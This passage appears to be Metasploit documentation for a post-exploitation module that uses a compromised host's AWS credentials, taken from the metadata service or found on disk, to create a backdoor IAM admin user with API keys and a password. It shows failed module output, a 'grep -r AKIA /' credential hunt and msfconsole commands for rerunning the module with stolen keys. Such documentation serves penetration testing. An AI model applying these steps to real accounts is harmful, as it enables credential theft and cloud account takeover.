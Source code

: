 ```
```

If the host does not have an instance profile or the right access, the output will look like so:

```
[*] 169.254.169.254 - looking for creds...
[*] Creating user: 6mTe7avvt6NzwOGh
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateUser on resource: arn:aws:iam::097986286576:user/6mTe7avvt6NzwOGh
[*] Creating group: 6mTe7avvt6NzwOGh
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateGroup on resource: arn:aws:iam::097986286576:group/6mTe7avvt6NzwOGh
[*] Creating group policy
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:PutGroupPolicy on resource: group 6mTe7avvt6NzwOGh
[*] Adding user (6mTe7avvt6NzwOGh) to group: 6mTe7avvt6NzwOGh
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:AddUserToGroup on resource: group 6mTe7avvt6NzwOGh
[*] Creating API Keys for 6mTe7avvt6NzwOGh
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateAccessKey on resource: user 6mTe7avvt6NzwOGh
[*] Creating password for 6mTe7avvt6NzwOGh
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateLoginProfile on resource: user 6mTe7avvt6NzwOGh
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:GetUser on resource: user 6mTe7avvt6NzwOGh
[*] Post module execution completed
```

## API Access Keys

In the case that the host we have taken over has no instance profile or does not
have the required privileges, we can search the host for access keys with
something like `grep -r AKIA /`. These keys may have admin privileges at which
point you own the account, if not we may be able to escalate privileges.
We can set `AccessKeyId`, `SecretAccessKey`, & `Token` (optional) and rerun
the exploit to test this possibility.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set AccessKeyId AKIAAKIAAKIAAKIAAKIA
AccessKeyId => AKIAAKIAAKIAAKIAAKIA
msf post(aws_create_iam_user) > set SecretAccessKey jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah
SecretAccessKey => jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > run
...
```

## Loot
